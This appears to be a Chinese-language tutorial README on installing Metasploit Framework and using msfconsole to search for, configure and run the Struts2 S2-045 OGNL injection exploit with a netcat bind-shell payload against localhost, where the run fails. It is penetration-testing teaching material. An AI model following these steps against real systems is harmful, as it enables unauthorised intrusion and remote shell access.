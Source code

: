 # MSF
metasploitframework

Metasploit Framework是一个编写，测试和使用exploit代码的完善环境。这个环境为渗透测试，shellcode编写和漏洞研究提供了一个可靠的平台，这个框架主要是由面向对象的Ruby编程语言编写的，并带有由C语言，汇编程序和Python编写的可选组件。


# install
### osx
install from [pkg file](https://osx.metasploit.com/metasploitframework-latest.pkg)

默认文件目录在`/opt/metasploit-framework/bin`下， 会自动在.bash_profile下添加路径，如果使用zsh，需要手动在.zshrc下添加
```
PATH=$PATH:/opt/metasploit-framework/bin
export PATH=$PATH:/opt/metasploit-framework/bin
```


### ubuntu
```
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
  chmod 755 msfinstall && \
  ./msfinstall
```


### tutorial
[tutorial-link](http://blog.csdn.net/u011467044/article/details/53324091)

##### 1. 运行msfconsole
在命令行中输入`msfconsole`。
```
root@ip-172-31-22-56:~# msfconsole

IIIIII    dTb.dTb        _.---._
  II     4'  v  'B   .'"".'/|\`.""'.
  II     6.     .P  :  .' / | \ `.  :
  II     'T;. .;P'  '.'  /  |  \  `.'
  II      'T; ;P'    `. /   |   \ .'
IIIIII     'YvP'       `-.__|__.-'

I love shells --egypt


       =[ metasploit v4.16.45-dev-                        ]
+ -- --=[ 1744 exploits - 998 auxiliary - 302 post        ]
+ -- --=[ 529 payloads - 40 encoders - 10 nops            ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf >
```
##### 2. 搜索相关漏洞
以struts2漏洞为例，在msfconsole下使用search搜索关键字。
```
msf > search s2-045

Matching Modules
================

   Name                                          Disclosure Date  Rank       Description
   ----                                          ---------------  ----       -----------
   exploit/multi/http/struts2_content_type_ognl  2017-03-07       excellent  Apache Struts Jakarta Multipart Parser OGNL Injection


msf >
```

##### 3. 选择漏洞模块
根据search返回的结果，使用use指令选择漏洞利用模块，使用show payloads查看可选的漏洞利用脚本。
```
msf > use exploit/multi/http/struts2_content_type_ognl
msf exploit(multi/http/struts2_content_type_ognl) > show payloads

Compatible Payloads
===================

   Name                                                Disclosure Date  Rank    Description
   ----                                                ---------------  ----    -----------
   cmd/unix/bind_awk                                                    normal  Unix Command Shell, Bind TCP (via AWK)
   cmd/unix/bind_inetd                                                  normal  Unix Command Shell, Bind TCP (inetd)
   cmd/unix/bind_lua                                                    normal  Unix Command Shell, Bind TCP (via Lua)
   cmd/unix/bind_netcat                                                 normal  Unix Command Shell, Bind TCP (via netcat)
   cmd/unix/bind_netcat_gaping                                          normal  Unix Command Shell, Bind TCP (via netcat -e)

msf >
```
使用set指令选择payload，输入show options显示需要配置的参数并使用set配置，最后，输入exploit执行渗透：
```
msf exploit(multi/http/struts2_content_type_ognl) > set payload cmd/unix/bind_netcat
payload => cmd/unix/bind_netcat
msf exploit(multi/http/struts2_content_type_ognl) > show options

Module options (exploit/multi/http/struts2_content_type_ognl):

   Name       Current Setting     Required  Description
   ----       ---------------     --------  -----------
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                          yes       The target address
   RPORT      8080                yes       The target port (TCP)
   SSL        false               no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /struts2-showcase/  yes       The path to a struts application action
   VHOST                          no        HTTP server virtual host


Payload options (cmd/unix/bind_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LPORT  4444             yes       The listen port
   RHOST                   no        The target address


Exploit target:

   Id  Name
   --  ----
   0   Universal


msf exploit(multi/http/struts2_content_type_ognl) > set RHOST localhost
RHOST => localhost
msf exploit(multi/http/struts2_content_type_ognl) > set RPORT 80
RPORT => 80
msf exploit(multi/http/struts2_content_type_ognl) > exploit

[*] Started bind handler
[-] Exploit aborted due to failure: bad-config: Server returned HTTP 404, please double check TARGETURI
[*] Exploit completed, but no session was created.
msf exploit(multi/http/struts2_content_type_ognl) > 
```
